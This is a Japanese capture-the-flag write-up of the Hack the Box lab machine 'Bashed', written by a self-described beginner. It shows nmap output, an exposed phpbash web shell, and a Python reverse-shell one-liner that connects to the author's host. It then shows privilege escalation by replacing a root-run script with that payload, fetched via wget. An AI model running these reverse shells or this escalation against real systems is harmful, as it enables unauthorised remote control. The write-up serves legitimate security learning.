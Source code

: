 ```yaml
---
title: "【Hack the Box write-up】Bashed"
date:  "2020-03-15T15:04:05+07:00"
author:
  - "さんぽし"
description: "【Hack the Box write-up】Bashed"
draft: true
tags: ["writeup","Hack the Box"]
categories:
  - "security"
---
```

#はじめに
筆者は Hack the Box 初心者です。
何か訂正や補足、アドバイスなどありましたら、コメントか Twitter までお願いします。
[さんぽし(@sanpo_shiho) | Twitter](https://twitter.com/sanpo_shiho)
#cheat sheet

以下で cheat sheet としてツールの使い方などをまとめています。参考にしてください。
[github | sanposhiho/MY_CHEAT_SHEET](https://github.com/sanposhiho/MY_CHEAT_SHEET)

#machine について
難易度は easy です。


#nmap

```
kali@kali:~$ nmap -p- -sC -sV 10.10.10.68
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-14 20:53 EDT
Nmap scan report for 10.10.10.68
Host is up (0.17s latency).
Not shown: 65505 closed ports, 29 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 4542.47 seconds

```

#80 番ポートを開いてみる
![スクリーンショット 2020-03-15 16.37.49.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/ab2814c3-17c9-df5d-cc50-5fe7f03f99ec.png)
![スクリーンショット 2020-03-15 16.38.01.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/f032ba69-c5ec-03a3-583f-16f396d4ec9e.png)

phpbash について説明した記事が出てきます。

#dirbuster

![スクリーンショット 2020-03-15 16.38.56.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/70945b83-cc45-d99f-45f3-641eea71d2eb.png)
`/dev`に `phpbash.php` が見つかります。

#`phpbash.php`を開く
![スクリーンショット 2020-03-15 16.40.23.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/d55101b4-8931-e12e-86f2-435f751dca78.png)
このようなターミナルのような画面が現れます。

![スクリーンショット 2020-03-15 16.42.36.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/7e7e3071-d7b1-54f4-100c-63d6a2ee364d.png)

user.txt が取れました。

#とりま `sudo -l` する

![スクリーンショット 2020-03-15 16.43.48.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/a2a2b561-cc6d-f867-cba4-4083c68f6d1e.png)

scriptmanager という user に切り替えられることがわかります。

#リバースシェルをとる

なぜか phpbash で scriptmanager の bash に切り替えられなかったので（←詰まったポイント 1)phpbash から一旦普通のリバースシェルに切り替えます。

ホスト側で以下のように待ち構えて

```
$ nc -lvnp 4242
```
[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)に乗っている python のコードをそのまま拝借して使用します。
IPv4 ではなぜか失敗します（←詰まったポイント 2
他の writeup をみてみると IPv4 じゃなくて IPv6 なら成功するよってことで IPv6 を使用すると、

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.3",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

以下のようにリバースシェルが取れました。

```
kali@kali:~$ nc -lvnp 4242
listening on [any] 4242 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.68] 39742
/bin/sh: 0: can't access tty; job control turned off
$ 
```

そしてリバースシェルの方で scriptmanager に切り替えようとしてみると

```
$ sudo -u scriptmanager bash
whoami
scriptmanager
```
成功しました。

#ディレクトリ探索
scriptmanager という名前なので script などの名前のついたファイルを中心に探してみると、ルートディレクトリに `/script` が存在し、案の定 scriptmanager が所有していることになっています。

```
cd /
ls -la
total 88
drwxr-xr-x  23 root          root           4096 Dec  4  2017 .
drwxr-xr-x  23 root          root           4096 Dec  4  2017 ..
drwxr-xr-x   2 root          root           4096 Dec  4  2017 bin
drwxr-xr-x   3 root          root           4096 Dec  4  2017 boot
drwxr-xr-x  19 root          root           4240 Mar 14 17:55 dev
drwxr-xr-x  89 root          root           4096 Dec  4  2017 etc
drwxr-xr-x   4 root          root           4096 Dec  4  2017 home
lrwxrwxrwx   1 root          root             32 Dec  4  2017 initrd.img -> boot/initrd.img-4.4.0-62-generic
drwxr-xr-x  19 root          root           4096 Dec  4  2017 lib
drwxr-xr-x   2 root          root           4096 Dec  4  2017 lib64
drwx------   2 root          root          16384 Dec  4  2017 lost+found
drwxr-xr-x   4 root          root           4096 Dec  4  2017 media
drwxr-xr-x   2 root          root           4096 Feb 15  2017 mnt
drwxr-xr-x   2 root          root           4096 Dec  4  2017 opt
dr-xr-xr-x 124 root          root              0 Mar 14 17:55 proc
drwx------   3 root          root           4096 Dec  4  2017 root
drwxr-xr-x  18 root          root            500 Mar 14 17:55 run
drwxr-xr-x   2 root          root           4096 Dec  4  2017 sbin
drwxrwxr--   2 scriptmanager scriptmanager  4096 Dec  4  2017 scripts
drwxr-xr-x   2 root          root           4096 Feb 15  2017 srv
dr-xr-xr-x  13 root          root              0 Mar 15 00:33 sys
drwxrwxrwt  10 root          root           4096 Mar 15 00:55 tmp
drwxr-xr-x  10 root          root           4096 Dec  4  2017 usr
drwxr-xr-x  12 root          root           4096 Dec  4  2017 var
lrwxrwxrwx   1 root          root             29 Dec  4  2017 vmlinuz -> boot/vmlinuz-4.4.0-62-generic
```

中をみてみます。

```
ls -la
total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Dec  4  2017 .
drwxr-xr-x 23 root          root          4096 Dec  4  2017 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 Mar 15 00:56 test.txt
```
scriptmanager の所有する `test.py` 、root が所有する `test.txt` が存在します。
中を覗くと

```
cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close

cat test.txt
testing 123!
```
となっています。

ここでもここからどうすれば？？という感じだったのですが、注目すべきは `test.txt` の**更新時間**でした。

このファイルだけ明らかに最近更新されており、`ls -la`でみるたびに更新されています。

- 頻繁に更新されていることから自動で `test.py` が実行されるようになっていると予想される
- `test.txt`は root の所有なので `test.py` の実行は root が行なっていると考えられる
- そして `test.py` は scriptmanager の所有なので編集できる

ここまで言えば何をすればいいか明確ですね（←自分では分からなくて[writeup](https://ethicalhacking.sh/posts/hack-the-box-bashed-writeup/)みた人）

#test.py を編集する
正確には編集したものをホストから持ってきます。

```test.py
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

見にくいですね。これは先ほどの[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)に乗っている python の IPv6 のコードをそのまま持ってきたものです（IP アドレスとかは変えてます）

ホスト側で SimpleHTTPServer を使って machine 側で取得します。

```
kali@kali:~$ python -m SimpleHTTPServer
```

```
rm test.py
wget http://10.10.14.3:8000/test.py
--2020-03-15 01:09:23--  http://10.10.14.3:8000/test.py
Connecting to 10.10.14.3:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 215 [text/plain]
Saving to: 'test.py'

     0K                                                       100% 24.3M=0s

2020-03-15 01:09:24 (24.3 MB/s) - 'test.py' saved [215/215]
```

これで既存の test.py を先ほど編集した test.py に切り替えられました。
ホスト側で root のリバースシェルを待ち受けます

```
kali@kali:~$ nc -lnvp 4444
listening on [any] 4444 ...
```
>自動で `test.py` が実行されるようになっていると予想される

なのでしばらく待ってみると

```
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.68] 37178
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
```
root が取れました！

#終わりに
今回は `ls -la` で所有者の違いと更新日時から root が定期的に `test.py` を実行しているということを見破るという部分が自分では見破れませんでした…
精進します。。

